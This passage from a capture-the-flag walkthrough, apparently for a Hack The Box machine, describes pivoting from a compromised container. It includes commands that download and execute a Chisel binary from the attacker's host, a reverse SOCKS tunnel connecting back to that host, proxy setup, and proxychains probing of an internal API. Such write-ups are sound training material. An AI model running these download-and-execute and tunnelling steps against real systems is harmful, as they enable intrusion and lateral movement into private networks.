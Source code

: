 The container is basically empty, which isn’t surprising, as it’s a container I just created. That said, there is a misconfiguration in how this container runs background commands that would let me skip several of the next steps, which I’ll cover in [Beyond Root](#beyond-root).

## Shell as jack

### Access to dev

#### Create Socks Proxy

I’ll give my container commands to upload [Chisel](https://github.com/jpillora/chisel) in to the container, first with `wget http://10.10.14.6/chisel_1.8.1_linux_amd64 -O /tmp/c`, and then with `chmod +x /tmp/c`. An empty return on the second command indicates success. I’ll start up my server (`./chisel_1.8.1_linux_amd64 server -p 8000 --reverse`, using a different port since Burp already listens on the default port, 8080), and the connect back with a background command (since I want it to be long running) of `/tmp/c client 10.10.14.6:8000 R:socks`. The background commands don’t return anything, but there’s a connection at my Chisel server:

```

2023/02/10 21:46:43 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

```

#### Configure Traffic

I use FoxyProxy to manage how my traffic proxies out of Firefox in my hacking VM. Most of the time, I leave it in “Use Enabled Proxies By Pattern and Order” mode, and I’ve got patterns to send most HTB and CTF traffic through Burp (see [this video where I set that up](https://www.youtube.com/watch?v=iTm33Miymdg)).

I’ve also got a profile in FoxyProxy I call Local SOCKS 1080:

![image-20230210170109823](https://0xdfimages.gitlab.io/img/image-20230210170109823.png)

This one will skip Burp, and go directly to a SOCKS on localhost 1080, which is just what Chisel is providing. I’ll add a pattern for this proxy for `*dev.rainycloud.htb*`. It comes before Burp in my priority order, so it’ll route all the traffic to dev via the tunnel. It works:

![image-20230210170451666](https://0xdfimages.gitlab.io/img/image-20230210170451666.png)

### Enumerating healthcheck

#### Access Full API

I’ll remember that `/api/healthcheck` was limited from non-local hosts. I’ll try it now via the proxy, but same result:

```

oxdf@hacky$ proxychains curl -s rainycloud.htb/api/healthcheck
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.11.184:80  ...  OK
{"result":true,"results":[]}

```
